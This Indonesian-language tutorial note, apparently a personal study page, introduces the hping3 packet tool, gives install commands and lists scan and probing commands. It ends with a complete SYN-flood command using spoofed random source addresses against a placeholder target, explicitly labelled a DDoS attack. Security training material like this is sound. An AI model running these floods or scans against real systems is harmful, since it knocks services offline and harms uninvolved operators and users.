



# Jalankan percobaan serangan DOS menggunakan Hping3
- ### apa itu aplikasi Hping3
- Aplikasi bernama Hping3 adalah sebuah alat baris perintah yang digunakan untuk mengirim dan menganalisis paket jaringan. Ini sering digunakan untuk pengujian keamanan dan troubleshooting jaringan. Hping3 dapat mengirim berbagai jenis paket TCP, UDP, ICMP, dan RAW-IP, sehingga memungkinkan pengguna untuk melakukan berbagai jenis tes.
- **Ping**: Menguji konektivitas dengan mengirim paket ICMP.
  logseq.order-list-type:: number
- **Port Scanning**: Memeriksa port yang terbuka pada sistem target.
  logseq.order-list-type:: number
- **DDoS Testing**: Menguji ketahanan sistem terhadap serangan DDoS.
  logseq.order-list-type:: number
- **Traceroute**: Mengetahui jalur yang diambil paket ke tujuan tertentu.
  logseq.order-list-type:: number
-
- Aplikasi ini berjalan di Operating System Linux dan tersedia default terinstall di repository Operating System Kali Linux, salah satu Operating System yang populer digunakan untuk penetration testing
-
- ## Perintah install Hping3 di Operating System Linux sesuai distronya:
- Ubuntu/Debian
  logseq.order-list-type:: number
  
  
  ```sudo apt update
  sudo apt update
  sudo apt install hping3
  ```
- Fedora
  logseq.order-list-type:: number
  
  ```sudo
  sudo dnf install hping3
  ```
- CentOS/RHEL
  logseq.order-list-type:: number
  
  ```sudo
  sudo yum install epel-release
  sudo yum install hping3
  ```
- Arch
  logseq.order-list-type:: number
  
  ```sudo
  sudo pacman -S hping
  ```
-
- ## Perintah penggunaan Hping3
- Berikut adalah beberapa cara penggunaan Hping3 yang lebih spesifik dan tingkat lanjut dalam konteks pentesting:
- TCP SYN Scan
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p 1-65535 --fast <IP_TUJUAN>
  ```
  -S: Mengirim paket SYN.
  --fast: Mempercepat pengiriman paket.
- TCP Connect Scan
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -c 1 -S -p <PORT_TUJUAN> <IP_TUJUAN>
  ```
  `-c 1`: Mengirim satu paket.
- Uji Firewall dan IDS
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -A -p <PORT_TUJUAN> --tcp-timestamp <IP_TUJUAN>
  ```
  -A`: Mengirim paket dengan flag ACK.`
  --tcp-timestamp`: Menambahkan opsi timestamp ke paket TCP.
- uji DDOS Resilience
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 --flood -S -p <PORT_TUJUAN> <IP_TUJUAN>
  ```
  --flood: Mengirim paket secara terus-menerus
- ICMP Paket Manipulation
  logseq.order-list-type:: number
  
  
  ```bash
  hping3 -1 -d 100 --flood <IP_TUJUAN>
  ```
  `-d 100`: Mengatur ukuran paket ICMP.
- Fragmentasi Paket
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --frag <IP_TUJUAN>
  ```
  --frag: Mengaktifkan fragmentasi paket.
- TCP Window Size Manipulation
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --win 5000 <IP_TUJUAN>
  ```
  --win: Mengatur ukuran jendela TCP.
- Menguji TCP Options
  logseq.order-list-type:: number
  
  ```bash
  hping3 -S -p <PORT_TUJUAN> --tcp-option 8 <IP_TUJUAN>
  ```
  
  --tcp-option: Menambahkan opsi TCP kustom.
- ## opsi fitur hping3
- berikut opsi fitur Hping3 yang dapat diexplore
- 
  
  
- ### contoh penggunaan:
- Kode ini adalah perintah untuk melakukan serangan DDoS menggunakan alat hping3 terhadap target yang diberikan. Penjelasan dari setiap opsi perintah adalah sebagai berikut:
  
  
  ```bash
  sudo hping3 -c 300000 -d 144 -S -w 64 -p 443 --flood --rand-source target.com -V
  ```
- `-c 300000`: Mengirim 300000 paket ke target
- `-d 144`: Mengatur ukuran data setiap paket menjadi 144 byte
- `-S`: Mengatur flag SYN pada paket
- `-w 64`: Mengatur ukuran jendela TCP menjadi 64 byte
- `-p 443`: Mengatur port tujuan ke 443 (HTTPS)
- `--flood`: Mode serangan banjir untuk mengirim sebanyak mungkin paket
- `--rand-source`: Menggunakan sumber alamat IP acak untuk setiap paket
- `target.com`: Nama domain target yang akan diserang
- `-V`: Menampilkan output dalam mode verbose (detail)
  
  Perlu diingat bahwa melakukan serangan DDoS tanpa izin adalah ilegal dan dapat menyebabkan konsekuensi hukum.
-